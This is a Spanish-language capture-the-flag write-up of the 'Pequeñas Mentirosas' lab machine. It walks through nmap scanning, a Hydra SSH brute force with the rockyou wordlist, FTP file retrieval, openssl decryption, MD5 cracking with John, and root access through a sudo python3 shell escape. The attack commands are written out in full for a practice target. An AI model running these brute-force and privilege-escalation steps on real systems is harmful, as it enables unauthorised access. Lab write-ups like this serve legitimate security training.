 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 31/05/2024'
---
```


# Pequeñas Mentirosas

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.21.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos que puede ser un usuario llamado **A** y tiene sentido ya que es un personaje de la serie de **Pequeñas Mentirosas**.&#x20;

<figure><img src="../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **russoski**. Sabiendo esto, nos conectamos a través de **FTP** al usuario con el comando:

```bash
ftp a@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

Al listar el contenido del directorio, no encontramos ningún archivo. Es importante recordar que los archivos asociados con los servidores se almacenan en el directorio `/srv`. En el caso de un servidor **FTP**, los archivos específicos que se desean compartir deben ubicarse en `/srv/ftp`. Por lo tanto, nos ubicaremos en ese directorio.

```bash
cd /srv/ftp
```

<figure><img src="../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Nos descargamos a nuestro equipo esos archivos.&#x20;

```bash
mget *
```

Indagamos poco a poco nos llama la atención sobre los ficheros de texto denominados `retos`.

<figure><img src="../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

Sabiendo eso tenemos que desencriptar el archivo `cifrado_aes.enc` con la clave del archivo `clave_aes.txt` con el comando:

```bash
openssl enc -d -aes-128-cbc -in cifrado_aes.enc -out desencriptado_aes.txt -k thisisaverysecretkey!
```

El archivo resultante contiene:

<figure><img src="../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

No contiene nada relevante seguimos con el archivo `retos_asimetrico.txt` con el comando:

```bash
openssl pkeyutl -decrypt -in mensaje_rsa.enc -out desencriptado_rsa.txt -inkey clave_privada.pem
```

Pero nos vuelve a parecer el mismo resultado:

<figure><img src="../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo `hash_spencer.txt` posiblemente **spencer** sea un usuario  por lo que a lo mejor ese **hash** es una contraseña. La podemos descifrar de dos maneras: la primera con **John** y la segunda con **Hydra** suponiendo que **spencer** es un usuario.

```bash
john --format=raw-md5 hash_spencer.txt
```

<figure><img src="../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

<figure><img src="../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

```bash
ssh spencer@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que hemos conseguido tener los máximos privilegios.&#x20;

> **Nota**: los demás archivos son para despistar.
